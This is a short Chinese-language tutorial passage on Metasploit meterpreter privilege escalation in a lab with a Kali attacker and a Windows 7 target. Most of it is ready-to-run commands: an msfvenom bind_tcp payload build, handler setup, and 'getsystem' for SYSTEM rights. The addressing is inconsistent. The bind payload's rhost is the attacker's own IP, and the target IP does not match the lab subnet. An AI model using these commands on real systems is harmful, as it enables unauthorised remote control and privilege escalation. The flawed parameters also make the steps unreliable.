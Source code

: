 #               meterpreter提权

------

## 环境搭建

攻击主机:

kali  linux   172.16.243.132



目标主机:

win 7           172.168.243.131



## 上传webshell连接

```
msfvenom -p windows/x64/meterpreter/bind_tcp rhost=172.16.243.132 -f exe > shell.exe

use exploit/multi/handler 

set payload windows/x64/meterpreter/bind_tcp

set rhost 172.16.243.132

run
```

![image-20210811162614804](msf提权.assets/image-20210811162614804.png)



正向连接shell成功，通道打开



## meterpreter基础提权

------

### 基础提权

我们在通道会话中可以使msf自动选择合适的方式进行提升权限

```
getsystem
```
